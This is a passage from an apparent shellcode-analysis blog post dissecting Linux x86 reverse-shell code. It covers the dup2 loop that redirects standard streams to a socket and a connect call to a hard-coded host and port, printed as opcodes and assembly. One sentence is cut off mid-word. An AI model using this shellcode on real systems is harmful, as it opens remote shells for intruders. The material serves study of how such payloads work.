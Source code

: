 The `socketcall()` syscall return the value on `eax` register, because `eax` register will be use for the next syscall, we need to store it in another register, in this case is `ebx` register with instruction `xchg eax,ebx`. And this `ebx` will use by `dup2` syscall. `dup2` syscall use to duplicate a file descriptor. The syntax of `dup2()`:
```
int dup2(int oldfd, int newfd);
```

and the registers needed to call `dup2()`:
- `eax` : `0x3f`
- `ebx` : `oldfd` - the return socket of `socketcall()` syscall above
- `ecx` : `newfd` 

to get the syscall number on ubuntu:

{% highlight console %}
kecebong@ubuntu:~/libemu$ python3 -c "print(int(0x3f))"
63

kecebong@ubuntu:~/libemu$ grep " 63$" /usr/include/i386-linux-gnu/asm/unistd_32.h 
#define __NR_dup2                63
{% endhighlight %}

the below block instructions are the loop to copy the socket file descriptor (which created on previous instructions) to `stdin`, `stdout` and `stderr`, so when it connected to the remote host, the outpu
- iter 1 : `dup2(oldfd, 2)` - stderr
- iter 2 : `dup2(oldfd, 1)` - stdout
- iter 3 : `dup2(oldfd, 0)` - stdin

{% highlight nasm %}
0000000F  93                xchg eax,ebx
00000010  59                pop ecx
00000011  B03F              mov al,0x3f
00000013  CD80              int 0x80

00000015  49                dec ecx
00000016  79F9              jns 0x11
{% endhighlight %}





{% highlight nasm %}
00000018  680A0A0A01        push dword 0x10a0a0a
0000001D  680200115C        push dword 0x5c110002
00000022  89E1              mov ecx,esp
00000024  B066              mov al,0x66
00000026  50                push eax
00000027  51                push ecx
00000028  53                push ebx
00000029  B303              mov bl,0x3
0000002B  89E1              mov ecx,esp
0000002D  CD80              int 0x80
{% endhighlight %}
